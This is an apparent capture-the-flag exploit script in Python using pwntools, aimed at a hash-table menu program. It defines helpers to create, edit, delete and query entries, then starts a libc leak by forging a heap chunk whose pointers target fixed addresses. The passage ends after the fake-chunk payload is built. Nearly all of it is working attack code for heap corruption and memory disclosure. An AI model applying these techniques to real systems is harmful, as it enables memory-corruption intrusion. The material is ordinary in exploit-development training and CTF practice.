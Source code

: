 ```python
    p = process('./' + _program)

    if _debug != 0:
        if elf.pie:
            _bps = [] #breakpoints defined by yourself, not absolute addr, but offset addr of the program's base addr
            _offset = __get_base(p, os.path.abspath(p.executable))
            _source = '\n'.join(['b*%d' % (_offset + _) for _ in _bps])
        else:
            _source = 'source peda-session-%s.txt' % _program
        gdb.attach(p.proc.pid, execute=_source)
else:
    libc = ELF('./libc6-i386_2.19-0ubuntu6.9_amd64.so') #todo
    p = remote('8.8.8.8', 4002)	#todo

def new_hash(hash_type, name, code):
    p.sendlineafter("option", str(1))
    p.sendlineafter("hash type", hash_type)
    p.sendlineafter("entry name", name)
    p.sendlineafter("hashcode", code)

def del_hash(idx):
    p.sendlineafter("option", str(2))
    p.sendlineafter("input id", str(idx))

def edit_hash(idx, option, new_value):
    if option == "type":
        optn = 1
    elif option == "code":
        optn = 3
    elif option == "name":
        optn = 2
    p.sendlineafter("option", str(3))
    p.sendlineafter("input id", str(idx))
    p.sendlineafter("option", str(optn))
    p.sendline(new_value)

def query_hash(hash_type, pattern):
    p.sendlineafter("option", str(4))
    p.sendlineafter("input type", hash_type)
    p.sendlineafter("pattern\n", pattern)
    p.recvuntil("name=")
    name = p.recvline().strip()
    p.recvuntil("hashcode=")
    hashcode = p.recvline().strip()
    return name, hashcode

########################## leak libc ######################################
new_hash("md5_16", "bbb", 'a' * 16)
new_hash("md5_16", "ccc", 'a' * 16)

edit_hash(0, "type", "sha256")

fake_st = [
        0, #prev size
        0x21, #size
        0x10, #hash_len
        0x601f78, #name
        0x601f80, #code
        0x21
        ]
payload = ''.join([p64(_) for _ in fake_st])

```